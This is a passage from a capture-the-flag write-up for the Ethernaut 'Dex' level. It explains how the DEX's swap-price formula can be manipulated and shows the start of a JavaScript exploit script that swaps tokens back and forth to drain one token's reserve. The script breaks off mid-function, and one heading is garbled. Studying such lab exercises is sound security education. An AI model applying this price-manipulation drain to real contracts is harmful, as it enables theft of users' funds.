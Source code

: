 ## Dex

`This challenge and it's second version will have the same solution basically with a little tweak. Better understand the concept`

**Challenge description**

>The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.
You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.
You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

--------
**Analysis**

The logic is faultless or is it ?  Well to be honest had to try many things here. One thing that got my attention that the equation made to calculate the swap_amount was familiar but not that much

![Dex Equation](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138013/17dcc969cfc52464829cb1a88231824931fda3a5b0d0b1d3d446eaf763974942_xxpfji.png)

A good read to understand it [Amazing Article to understand AMM](https://www.gemini.com/cryptopedia/amm-what-are-automated-market-makers).

So actually by balancing our token balance from one token to another we will manage at last to drain the contract's balance of one token's type.

-----
**-----
**Exploitation**ation**

```js
const contractABI = artifacts.require("Dex");

// if token1.balance > token2.balance ==> token2 is more expensive because it has less tokens
// we want to trade the most expensive tokens
// knowTokenValues() ==> Distiniguishing the most expensive and cheapest token
// getSwapValues() // Basically our balance in the most expensive token
// ==============================

let contract ;
const TOKEN1_ADDRESS = "0x954aB18d300D8FFE76a2eFE7B36fcD6EF36825c7";
const TOKEN2_ADDRESS = "0xE651aD37ac31B03F7B49036248A29DC75D0093E6";
let PLAYER='PLAYER_ADDRESS'

async function getBalances(){
    const token1Balance = (await contract.balanceOf(TOKEN1_ADDRESS,contract.address)).toNumber();
    const token2Balance = (await contract.balanceOf(TOKEN2_ADDRESS,contract.address)).toNumber();
    console.log(`Current Balances for contract : A : ${token1Balance} \t B : ${token2Balance}`);
    return {token1Balance,token2Balance}
}

 function knowTokenValues({token1Balance,token2Balance}){
    return {mostExpensiveToken: token1Balance >= token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS,cheapestToken:token1Balance < token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS };
}

async function getSwapValues(tokensWithValues){
    let toSwap  = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,PLAYER)).toNumber();
    let available = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,contract.address)).toNumber();

    // to be able to drain the funds and not stop when we got too much tokens.
    if(toSwap>available)toSwap=available;
```